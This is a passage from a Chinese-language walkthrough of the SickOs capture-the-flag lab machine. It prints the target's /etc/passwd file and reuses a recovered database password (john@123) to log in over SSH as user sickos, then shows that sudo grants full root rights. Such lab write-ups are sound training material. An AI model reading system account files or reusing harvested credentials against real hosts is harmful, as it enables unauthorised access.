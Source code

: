     发现数据库用户名为`root`，密码为`john@123`
    
    改密码有可能也是系统上某个用户的密码
    
- 查看`/etc/passwd`  寻找可疑用户
    
    ```php
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/bin/sh
    bin:x:2:2:bin:/bin:/bin/sh
    sys:x:3:3:sys:/dev:/bin/sh
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/bin/sh
    man:x:6:12:man:/var/cache/man:/bin/sh
    lp:x:7:7:lp:/var/spool/lpd:/bin/sh
    mail:x:8:8:mail:/var/mail:/bin/sh
    news:x:9:9:news:/var/spool/news:/bin/sh
    uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
    proxy:x:13:13:proxy:/bin:/bin/sh
    www-data:x:33:33:www-data:/var/www:/bin/sh
    backup:x:34:34:backup:/var/backups:/bin/sh
    list:x:38:38:Mailing List Manager:/var/list:/bin/sh
    irc:x:39:39:ircd:/var/run/ircd:/bin/sh
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
    nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
    libuuid:x:100:101::/var/lib/libuuid:/bin/sh
    syslog:x:101:103::/home/syslog:/bin/false
    messagebus:x:102:105::/var/run/dbus:/bin/false
    whoopsie:x:103:106::/nonexistent:/bin/false
    landscape:x:104:109::/var/lib/landscape:/bin/false
    sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
    sickos:x:1000:1000:sickos,,,:/home/sickos:/bin/bash
    mysql:x:106:114:MySQL Server,,,:/nonexistent:/bin/false
    ```
    
    发现可疑用户有 `root`，`www-data`，`bckup`，`sickos`
    
- 使用可疑用户进行ssh登录，密码使用`john@123` ，数据库链接上的密码
    
    最后`sickos` 成功登录
    
- 查看`sickos` 用户权限
    
    ```php
    sickos@SickOs:~$ sudo -l
    //
    [sudo] password for sickos: 
    Matching Defaults entries for sickos on this host:
        env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
    
    User sickos may run the following commands on this host:
        (ALL : ALL) ALL
    ```
    
    等于root权限
    